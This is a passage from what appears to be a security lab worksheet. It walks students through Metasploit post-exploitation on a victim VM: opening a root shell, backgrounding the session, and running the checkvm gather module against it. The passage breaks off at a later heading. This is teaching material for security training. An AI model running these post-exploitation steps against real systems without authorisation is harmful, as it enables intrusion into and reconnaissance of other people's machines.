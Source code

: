 ==action: Finally, open a command interpreter as the root user, which can be used by post-exploitation modules:==

```bash
sh
```

## MSF post exploitation modules {#msf-post-exploitation-modules}

> Tip: Please, keep in mind that exploiting a vulnerability always means that you are causing the system to behave abnormally; so, do not expect that all post-exploitation modules will always work as they should; if something doesn't work in your VM, just continue.

> Note: If you are continuing from above:

==action: Make sure you have completed the previous steps, to get a root bind shell on the victim==.

==action: Put the session in the background:==

==action: Press Ctrl-Z (and when prompted, confirm)==

==action: Note the session ID:==

```bash
msf > sessions
```

> Note: Take a note of the session ID, such as "1".

### System details: Check whether we are in a VM {#system-details:-check-whether-we-are-in-a-vm}

==action: Run the post module "checkvm", to determine whether the system the attacker is interacting with is a VM:==

```bash
msf > use post/linux/gather/checkvm
```

```bash
msf post(checkvm) > show options
```

```bash
msf post(checkvm) > setg SESSION ==edit:ID==
```

> Note: Where *ID* is the session ID number noted earlier.

> Tip: Using "setg" means that this option is remembered globally, so we won't have to type this for each of the below.

```bash
msf post(checkvm) > exploit
```

> Question: What does the output tell you?

### System details: Save configuration details {#system-details:-save-configuration-details}

